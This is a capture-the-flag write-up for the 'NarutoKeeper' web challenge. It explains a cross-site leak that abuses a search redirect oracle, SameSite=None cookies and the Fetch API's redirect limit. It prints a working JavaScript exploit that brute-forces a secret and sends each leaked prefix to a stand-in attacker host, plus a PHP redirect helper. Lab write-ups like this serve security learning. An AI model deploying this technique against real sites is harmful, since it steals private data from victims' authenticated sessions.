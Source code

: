 # NarutoKeeper

> I was confused and didn't know what's the approproate name for this website :( However just a typical note keeper website \o/ Enjoy the ride :)\
> **Link:** https://20.124.0.135/

{% file src="../../.gitbook/assets/source.tar.gz" %}

In this challenge, we can create notes and search for them.&#x20;

In particular, the search function is rather interesting. We can see that if a note is found with the given query, then a server-side 302 redirect is issued to `/view`.

```python
@app.route('/search')
def search():
    if 'username' not in session:
        return redirect('/login')
    if 'query' not in request.args:
        return redirect('/home')
    query = str(request.args.get('query'))
    results = get_pastes(session['username'])
    res_content=[{"id":id,"val":get_paste(id)} for id in results]
    if ":" in query:
        toGo=get_paste(query.split(":")[1])
        sear=query.split(":")[0]
    else:
        toGo=res_content[0]["val"]
        sear=query
    i=0
    for paste in res_content:
        i=i+1
        if i>5:
            return redirect("/view?id=MaximumReached&paste="+toGo.strip())     
        if sear in paste["val"]:
            return redirect("/view?id=Found&paste="+toGo.strip())
    return render_template("search.html",error='No results found.',result="")
```

Since the redirect is only issued if the query is part of the note, we can use the redirect as an oracle to detect whether our flag is correct and bruteforce the flag.

Just to be sure, we can also check that the `SameSite` attribute of the cookies is set to `None`, enabling cross-origin requests to carry the victim's cookies.

```python
app.config['SESSION_COOKIE_SAMESITE']="None"
app.config['SESSION_COOKIE_SECURE']= True
```

I read [some slides](https://docs.google.com/presentation/d/1rlnxXUYHY9CHgCMckZsCGH4VopLo4DYMvAcOltma0og/edit#slide=id.g63e29d5a06\_0\_0) on this exact scenario a while back. The attack relies on the fact that the Fetch API has a maximum redirect count of 20. If the redirect count exceeds this value, a network error is returned.

![](https://lh5.googleusercontent.com/Wx6wCcfIg7RBtGr3pV9hasQVoGFm7EsfOAS8Rf-XeLavDHd04SimoI3aTLhJEVAXYFA4jTp3d9fpypge3hgUxYNrYXIGa0BNRveFJsq9wVLauU-FE9MCqY9k--3GOu31GnIZnpauHuI)

Therefore, we can leak whether a redirect occurred in the cross-origin request by catching the network error.

On the client, we will make a request to our own attacker server. This server should redirect to itself 19 times, before redirecting to the actual target URL.&#x20;

If the target URL then performs a further 302 redirect, then the redirect limit is reached - we can catch the error and exfiltrate the flag so far.

```markup
<html>
    <body>
        <script>
            (async () => {
                const attackerUrl = "http://ATTACKER.COM";
                const checkRedirect = async (numRedirects, toCheck) => {
                    let res = 0;
                    await fetch(`${attackerUrl}/redirect.php?check=${numRedirects}&step=0&url=https://20.124.0.135/search?query=${toCheck}`, {
                        credentials: "include",
                        mode: 'no-cors',
                    }).then((r) => {
                        // no redirect
                    }).catch(async() => {
                        // redirect limit reached
                        // there was an extra redirect (by the server)
                        fetch(`${attackerUrl}/${toCheck}`);
                        res = 1;
                    })
                    return res;
                }
                
                const alphabet = "abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789_-!{}";
                let curr = "Securinets{ArigAt0";

                while (true) {

                    for (let i = 0; i < alphabet.length; i++) {
                        let toCheck = curr + alphabet[i];
                        let res = await checkRedirect(0, toCheck);
                        if (res)
                            break;
                    }
                    
                    curr = toCheck;
                    if (curr[curr.length -1] == '}') {
                        break;
                    }
                }

            })();

        </script>
    </body>
</html>
```

On our server, we run the following PHP script to redirect to ourself 19 times, before redirecting to the target URL.

```php
<?php
    $check = (int) $_GET['check'];
    $step = (int) $_GET['step'];
    $url = $_GET['url'];
    if ($step === 19 - $check) {
        header('Location: ' . $url);
    } else {
        header('Location: redirect.php?check=' . $check . '&step=' . ($step + 1) . '&url=' . $url);
    }
?>
```

Here's the result! Thankfully the admin bot waits long enough for us to slowly bruteforce the flag letter by letter.

![](<../../.gitbook/assets/image (91).png>)
